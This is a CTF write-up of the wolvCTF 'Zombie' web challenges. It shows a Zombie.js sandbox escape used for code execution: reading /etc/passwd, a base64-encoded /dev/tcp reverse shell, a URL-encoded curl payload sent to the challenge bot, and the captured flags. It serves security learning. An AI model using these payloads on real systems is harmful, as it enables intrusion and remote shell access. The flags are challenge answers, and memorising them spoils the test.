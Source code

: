 ```yaml
---
title: wolvCTF Zombie 201
type: page
description: writeups of wolvCTF.
topic: ctf
Author: bluesam
date: 2023-03-20
---
```

# Zombie 101 - Web

As debug off and httponly on its gonna be hard. maybe?

##IDEA

Zombie last version is from 2018, maybe we will find some 0-day (1-day ofc if its the intended way) https://github.com/assaf/zombie/blob/master/CHANGELOG.md

our version on the challenge is the last one, confirmed on package.json:

```javascript
{
  "name": "zombie",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "author": "",
  "dependencies": {
    "escape-html": "^1.0.3",
    "express": "^4.18.2",
    "zombie": "^6.1.4"
  }
}
```
# Start of our research

On the zombie.js npm page we can find this comment : WARNING: Crawling untrusted web pages with Zombie.js is not safe.

Given this warning we instantly jump into the github page of zombie and try to search into issues tab for security issues report.

In an issue we can find a comment wrotten by the creator of the project :
```
Zombie is “full-stack testing using Node.js”. 
It’s fit for purpose: use it in your test environment, to run test suites, against your application code.
Zombie is not designed to test adversaries (eg pen tests, web scraping).
```
In this issue we can find a rejected CVE : https://github.com/nodejs/security-wg/pull/442 So we look what people already found on it.

At this moment we found an interesting comment with a POC of a way to execute arbritrary code.
```js
const vm = require('vm');
const result = vm.runInNewContext(`
  (function() {
    var c = 'constructor';
    var require = require=this[c][c]('return process')().mainModule.require;
    var fs = require('fs');
    return String(fs.readFileSync('/home/joshbreckman/Documents/vm.js'));
  })()
`);
```
console.log(result);

Basicaly this guy tested within the VM module for testing purpose, but from what is said zombie suffer the same issue.

So lets try this localy with the bot.js file used on the challenge and tweak it to our needs.
bot.js
```javascript
const zombie = require("zombie")

const browser = new zombie ({
    waitDuration: 5*1000,
    localAddress: 0 // without this, calls to localhost fail!
})

const httpOnly = 'true'
const hostname = "localhost"
const url = "http://localhost:8000/exploit.html"

process.env.FLAG = "Fake{Flag}"

browser.setCookie({ name: 'flag', domain: hostname, path:'/', value: process.env.FLAG, httpOnly: httpOnly})

browser.visit(url, function() {})  
```
# exploit.html
```html
<script>
    aa = (function() {
        var c = 'constructor';
        var require = require=this[c][c]('return process')().mainModule.require;
        var fs = require('fs');
        return String(fs.readFileSync('/etc/passwd'));
    })();
    console.log(aa);
</script>
```
When the script fired we obtain our /etc/passwd file:

So we have the confirmation that an RCE is possible with Zombie.js 6.1.4.

Now lets try to catch a reverse shell and flag the challenge.

Our initial reverse shell :

`sh -i >& /dev/tcp/ourserverip/4444 0>&1`

Base64 encode it:

`echo -n 'sh -i >& /dev/tcp/ourserverip/4444 0>&1' | base64 -w 0
c2ggLWkgPiYgL2Rldi90Y3Avb3Vyc2VydmVyaXAvNDQ0NCAwPiYx`

and now lets update our exploit.html file.
```HTML
<script>
    (function() {
        var c = 'constructor';
        var require = require=this[c][c]('return process')().mainModule.require;

        require('child_process').exec('echo c2ggLWkgPiYgL2Rldi90Y3Avb3Vyc2VydmVyaXAvNDQ0NCAwPiYx | base64 -d | bash')
    })();
</script>
```
We try again in local with our bot.js file and booom we received a shell!

From now we can minify and url encode our payload in exploit.html and make the bot of the challenge visit it.

Set a listener on listener:

`nc -lvp 4444`

and now fire the payload to the bot
```curl
curl 'http://zombie-301-tlejfksioa-ul.a.run.app/visit?url=https://zombie-301-tlejfksioa-ul.a.run.app/zombie?show=%3Cscript%3E%28function%28%29%7Bvar%20c%3D%27constructor%27%3Bvar%20require%3Drequire%3Dthis%5Bc%5D%5Bc%5D%28%27return%20process%27%29%28%29.mainModule.require%3Brequire%28%27child_process%27%29.exec%28%27echo%20c2ggLWkgPiYgL2Rldi90Y3Avb3Vyc2VydmVyaXAvNDQ0NCAwPiYx%20%7C%20base64%20-d%20%7C%20bash%27%29%7D%29%28%29%3B%3C%2Fscript%3E'
```
and GGs !
```linux
Ncat: Connection from 35.203.246.158:40367.
sh: 0: can't access tty; job control turned off

$ id
uid=1000(node) gid=1000(node) groups=1000(node)

$ pwd
/ctf/app

$ ls
bot.js
config.json
index.js
node_modules
package-lock.json
package.json
public

$ cat config.json
{"flag": "wctf{h0w-d1d-y0u-r34d-7h3-3nv-v4r-31831}", "httpOnly": true, "allowDebug": false}

As the browser were vulnerable for all 4 Zombie challenges we can retrieve our two missing flag for Zombie 301 and zombie 401, just repeat same steps for http://zombie-401-tlejfksioa-ul.a.run.app/

Zombie 301 : wctf{h0w-d1d-y0u-r34d-7h3-3nv-v4r-31831} Zombie 401 : wctf{y0u-4r3-4n-4dm1n-807-m4573r-86835}
```
A big thanks to SamXML for proposing this list of challenge ;)
Ressources

https://www.npmjs.com/package/zombie https://github.com/assaf/zombie https://github.com/nodejs/security-wg/pull/442#issuecomment-442200323 https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af
